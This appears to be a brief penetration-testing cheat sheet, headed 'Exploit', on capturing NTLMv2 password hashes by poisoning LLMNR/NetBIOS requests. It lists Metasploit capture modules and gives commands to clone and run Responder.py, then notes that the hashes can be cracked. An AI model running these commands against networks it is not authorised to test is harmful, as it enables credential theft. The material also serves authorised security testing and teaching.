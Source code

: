 # Exploit
1. Capture password hashes through LLMNR / NetBIOS Requests using Metasploit.
```
Auxiliary/server/capture/smb 
auxiliary/server/capture/http_ntlm 
```
  - These will result in NTLM v2 hashes which you can use PW cracker to break. 
2. Automated Evaluation / Exploitation (Responder.py) 
```
git clone https://github.com/SpiderLabs/Responder.git 
python Responder.py -i [IP] -I eth0 
```
